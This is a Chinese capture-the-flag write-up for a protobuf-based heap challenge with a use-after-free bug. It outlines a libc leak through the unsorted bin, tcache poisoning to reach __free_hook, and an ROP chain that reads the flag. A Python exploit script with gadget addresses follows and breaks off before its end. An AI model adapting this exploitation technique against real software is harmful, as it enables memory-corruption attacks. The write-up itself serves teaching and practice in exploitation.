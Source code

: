 由于 free 的时候指针仍留着，所以存在 UAF。思路：

- 先通过额外七个堆绕过 tcache，接着 free 一个堆到 unordered bin，从而通过 fd bk leak 得到 libc 基址
- 然后利用 UAF 修改 tcache bin 中的 fd 使得重新 malloc 回来的地址变为 __free_hook
- 最后在 __free_hook 的地方迁移栈并 ROP 对 flag 进行 open read write 即可

???+ success "exp"
    ```python
    from exp_pb2 import *

    ...

    def send(_id, idx, size, buf):
        msg = Msg()
        msg.id = _id << 1
        msg.idx = idx << 1
        msg.size = size << 1
        msg.buf = buf
        return msg.SerializeToString()

    def create(idx, size, content):
        p.sendafter(b": \n", send(1, idx, size, content))

    def update(idx, content):
        p.sendafter(b": \n", send(2, idx, 0xf0, content))

    def print_(idx):
        p.sendafter(b": \n", send(3, idx, 3, b"AAA"))

    def delete(idx):
        p.sendafter(b": \n", send(4, idx, 3, b"AAA"))

    for i in range(1, 9):
        create(i, 0x80, b"AAA")
    pause()

    for i in range(8, 0, -1):
        delete(i)
    pause()

    print_(1)
    p.recvn(0x70)
    libc.address = u64(p.recvn(0x8)) - 0x1ECBE0

    create(10, 0xf0, b"AAA")
    create(11, 0xf0, b"AAA")
    delete(11)
    delete(10)
    update(10, p64(libc.sym['__free_hook']))
    create(12, 0xf0, p64(0) + p64(libc.sym['__free_hook'] + 0x10))
    create(13, 0xf0, b"a")

    """
    0x0000000000047445 : add rsp, 0x28 ; ret
    0x000000000005b4d0 : mov rsp, rdx ; ret
    0x0000000000023b6a : pop rdi ; ret
    0x000000000002601f : pop rsi ; ret
    0x0000000000142c92 : pop rdx ; ret
    0x0000000000151990 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
    """
